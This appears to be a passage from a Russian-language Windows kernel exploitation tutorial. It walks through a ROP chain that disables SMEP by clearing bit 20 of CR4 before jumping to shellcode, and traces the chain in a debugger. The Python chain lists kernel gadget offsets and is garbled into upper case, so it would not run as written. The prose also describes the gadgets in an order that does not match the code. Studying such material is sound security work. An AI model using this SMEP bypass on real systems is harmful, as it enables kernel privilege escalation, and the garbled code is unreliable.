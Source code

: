 Я могу расположить **ROP** так, чтобы в начале у меня было несколько **RET**, чтобы компенсировать то, что возвращается из **RET8**, и удалить промежуточные отступы.

```python
INPUT = STRUCT.PACK("<I", NT + 0X519770) *4 # RET
INPUT += STRUCT.PACK("<I", NT + 0X11FC10) # MOV EAX, CR4 - RET
INPUT += STRUCT.PACK("<I", NT + 0X51976F) # POP ECX; RET
INPUT += STRUCT.PACK("<I", 0XFFEFFFFF) # TO DISABLE SMEP
INPUT += STRUCT.PACK("<I", NT + 0X50095C) # AND EAX,ECX; RET
INPUT += STRUCT.PACK("<I", NT + 0X22F2DA) # MOV CR4,EAX; RET4
INPUT += STRUCT.PACK("<I", INT(BUF)) # A SHELLCODE
```

Когда я выполняю этот код, я прихожу в **RET**.

![](.gitbook/assets/62/27.png)

И я начинаю трассировать.

![](.gitbook/assets/62/28.png)

Если вы не видите код, нажмите клавишу **F7**, а если все равно не видите, нужно создать там сегмент щелкнув правой кнопкой мыши.

![](.gitbook/assets/62/29.png)

![](.gitbook/assets/62/30.png)

Низкий адрес начала сегмента, который охватывает область, где я нахожусь, и достаточно любого имени. Я снова нажимаю клавишу **F7**. И появляется код.

![](.gitbook/assets/62/31.png)

Затем **ROP** переходит сюда.

![](.gitbook/assets/62/32.png)

Где значение **EAX** помещается в **CR4**. Затем идёт **POP ECX - RET**, где программа помещает в стек значение **0xFFEFFFFF**.

![](.gitbook/assets/62/33.png)

Затем идёт **AND** для сброса бита **20**.

![](.gitbook/assets/62/34.png)

А затем снова сохраняется измененное значение в регистр **CR4**.

![](.gitbook/assets/62/35.png)

Напомним, что это раньше это было значение **0x1406E9**, а теперь значение равно **0x406E9**, у которого сброшен бит **20**.

![](.gitbook/assets/62/36.png)

